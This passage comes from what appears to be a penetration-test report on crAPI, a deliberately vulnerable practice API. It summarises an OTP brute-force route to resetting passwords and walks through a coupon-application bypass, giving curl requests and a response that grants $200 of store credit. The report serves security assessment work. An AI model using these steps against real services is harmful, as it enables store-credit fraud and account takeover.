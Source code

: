 The v2 endpoint allows unlimited OTP enumeration, making it possible to systematically test all 1,000,000 possible OTP combinations (000000-999999) to reset any user's password.

---

### AUTHZ-VULN-14: Coupon Application Workflow Bypass

**Summary:**
- **Vulnerable location:** POST /workshop/api/shop/apply_coupon
- **Overview:** Business logic bypass allowing coupon application without proper shopping cart state
- **Impact:** Ability to accumulate unlimited store credit without purchasing items
- **Severity:** High

**Prerequisites:** Valid JWT Bearer token, valid coupon code

**Exploitation Steps:**
1. Create a test coupon:
   ```bash
   curl -X POST "https://crapi.sandbox.local:8888/community/api/v2/coupon/new-coupon" \
     -H "Content-Type: application/json" \
     -H "Authorization: Bearer [USER_TOKEN]" \
     -d '{
       "amount": "20",
       "coupon_code": "TESTCOUPON20"
     }'
   ```

2. Apply coupon without shopping cart workflow:
   ```bash
   curl -X POST "https://crapi.sandbox.local:8888/workshop/api/shop/apply_coupon" \
     -H "Content-Type: application/json" \
     -H "Authorization: Bearer [USER_TOKEN]" \
     -d '{
       "coupon_code": "TESTCOUPON20",
       "amount": 100
     }'
   ```

**Proof of Impact:**
Successfully bypassed normal shopping workflow and accumulated credit:
```json
{"credit":200.0,"message":"Coupon successfully applied!"}
```

The application granted $200.00 in store credit without requiring any items in cart or following the proper shopping workflow. This allows attackers to accumulate unlimited store credit by repeatedly applying coupons without purchasing any products.